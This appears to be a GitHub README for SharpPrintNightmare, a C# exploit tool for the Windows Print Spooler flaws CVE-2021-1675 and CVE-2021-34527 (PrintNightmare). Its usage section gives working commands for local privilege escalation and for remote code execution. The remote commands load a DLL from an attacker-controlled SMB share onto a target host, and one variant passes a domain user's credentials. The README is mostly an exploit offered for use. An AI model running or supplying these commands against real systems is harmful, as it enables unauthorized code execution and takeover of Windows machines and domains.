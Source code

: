 # C# Implementation of CVE-2021-1675 / CVE-2021-34527

### Update

New `CVE-2021-1675.py` has been uploaded which will get the same result as the C# version

No longer need to manually specify pConfigFile with C# version

### Usage

The RCE functionality might need to be executed with local administrator privileges on YOUR machine.

```
#LPE
C:\SharpPrintNightmare.exe C:\addCube.dll

#RCE using existing context
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' '\\192.168.1.20'

#RCE using runas /netonly
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' '\\192.168.1.10' hackit.local domain_user Pass123
```

![](../Images/poc4.png)

![](../Images/poc3.png)

### Acknowledgements
For contributing new ideas or exploit improvements, thanks to
* [kiqrx](https://www.hackthebox.eu/home/users/profile/72916)
